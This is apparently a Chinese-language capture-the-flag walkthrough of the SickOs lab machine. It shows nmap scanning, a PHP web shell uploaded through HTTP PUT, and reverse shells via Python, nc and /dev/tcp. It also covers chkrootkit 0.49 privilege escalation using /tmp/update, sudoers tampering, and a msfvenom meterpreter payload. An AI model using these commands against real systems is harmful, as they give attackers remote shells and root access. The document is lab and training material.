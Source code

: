 1、nmap 10.211.55.0/24 -sP
Nmap scan report for localhost (10.211.55.40)

2、全端口扫描nmap
nmap -sC -sV -A -T5 10.211.55.40

22/tcp open  ssh     OpenSSH 5.9p1
80/tcp open  http    lighttpd 1.4.28

对于SickOs1项目十二，该项目十三仅仅开启了两个端口22和80，思路很简单，就是web页面信息枚举ssh登录！


3、页面枚举

访问：http://10.211.55.40/     ---这是一张图

dirb http://10.211.55.40/
发现：http://10.211.55.40/test/
存在Parent Directory/文件目录，点击又跳到了图片处！发现左下角图示：lighttpd/1.4.28

Lighttpd是一个德国人领导的开源软件,其根本的目的是提供一个专门针对高性能网站,安全、快速、兼容性好并且灵活的web server环境。具有非常低的内存开销,cpu占用率低,效能好,以及丰富的模块等特点。

burpsuite测试put发现可以请求上传成功！
OPTIONS  ---查看到put


HTTP请求方法并不是只有GET和POST，只是最常用的。据RFC2616标准（现行的HTTP/1.1）得知，通常有以下8种方法：OPTIONS、GET、HEAD、POST、PUT、DELETE、TRACE和CONNECT。

接下来用OPTIONS来进行请求：OPTIONS一般是对CORS(跨域资源共享)枚举的
curl -v -X OPTIONS http://10.211.55.40/test

-v   ---列出详细的信息
-X   ---指定请求OPTIONS选项信息

< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: ---允许使用，这里是允许使用的命令


4、webshell

方法1：
curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.211.55.41/test/shell.php
http://10.211.55.41/test/shell.php?cmd=ls

nc -vlp 6677
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.19",6677));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

这里的system   passthru
------------------------

方法2：
weevely generate passdayu dayu.php

curl --upload-file dayu.php -v --url http://10.211.55.40/test/dayu.php -0

--upload-file  ---上传
-0   ---因为要接入http1.0或者http2，-0是自动会选择！

访问：http://10.211.55.40/test
发现成功上传！

weevely http://10.211.55.40/test/dayu.php passdayu
成功获得反弹shell！

------------------------

curl --upload-file 1.php -v --url http://10.211.55.40/test/1.php -0

/bin/nc 10.211.55.19 8888 -e /bin/bash



5、内网信息枚举

curl --upload-file linpeas.sh -v --url http://10.211.55.41/test/linpeas.sh -0
chmod +x linpeas.sh
./linpeas.sh

1）Linux version 3.11.0-15-generic   ---内核提权

2）Sudo version 1.8.3p1   ---可能存在sudo溢出提权

3）john:x:1000:1000:Ubuntu 12.x,,,:/home/john:/bin/bash
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),109(sambashare)   ---sudo权限提升

枚举计划任务：
find / -name cron* 2>/dev/null

cat /etc/crontab   ----存在计划任务
-----------
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
-----------
/etc/cron.daily
/etc/cron.weekly
/etc/cron.monthly
这三个目录下存在计划任务，开始枚举！写入！
https://blog.csdn.net/jixieyang3701/article/details/79410725


cd /etc/cron.daily
发现存在：chkrootkit

Rootkit是一个特殊的恶意软件，它可隐藏自身以及指定的文件、进程、网络、链接、端口等信息。Rootkit可通过加载特殊的驱动修改系统内核，进而达到隐藏信息的目的。Rootkit的三要素就是：隐藏、操纵、收集数据。
Rootkit具有隐身功能，无论静止时作为文件存在，还是活动时作为进程存在，都不会被察觉，它可能永远存在于计算机中。

Chkrootkit是一款用来检测rootkit的软件，运行环境为linux，可以直接通过http://www.chkrootkit.org/download/地址来下载，随后进行解压缩。


find / -name chkrootkit 2>/dev/null
/usr/sbin/chkrootkit     ---配置信息
/etc/cron.daily/chkrootkit   ---环境变量信息
该环境是存在Chkrootkit！

chkrootkit -V
chkrootkit version 0.49
searchsploit chkrootkit 0.49
cp /usr/share/exploitdb/exploits/linux/local/33899.txt .

33899 exp文件中说在/usr/sbin/chkrootkit配置110行中存在：
“file_port $i” 会调用$SLAPPER_FILES中指定的所有文件作为chkrootkit用户进行执行命令（通常是root），原因是file_port是空的，因为在变量赋值周围缺少引号！

exp：
将update可执行文件放在/tmp中，运行chkrootkit，文件/tmp/update将以root身份被执行！
两个条件：
1）tmp有写入权限
2）定期运行chkrootkit
那么将可以稳定拿shell！

防护手段：
file_port="$file_port $i"   ---加上引号


6、提权
------------
方法1：chkrootkit提权

printf '#!/bin/bash\nbash -i >& /dev/tcp/10.211.55.19/443 0>&1\n' >> /tmp/update
chmod 777 /tmp/update
nc -nlvp 443

------------
方法2：
给对方www-data加入sudo权限：
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
chmod +x /tmp/update

ls -la /etc/sudoers   ---过几分钟查看
sudo su          ----成功获得root权限
------------
方法3：
msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf LHOST=10.211.55.19 LPORT=443 -o dayu.elf

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lport 443
set lhost 10.211.55.19
exploit -j

python -m SimpleHTTPServer 443
wget http://10.211.55.19:443/dayu.elf
mv dayu.elf /tmp/update
chmod +x update
等待会msf上线！

------------

7、防火墙查看

cd ~/
cat newRule
----------
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 8080 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 443 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 22 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 8080 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 443 -j ACCEPT
COMMIT
------------
只有端口22、80、443、8080允许通过防火墙！


拓展小技巧：
1）MSF拿下root---php
遗留问题：msf-php拿shell无法执行命令




























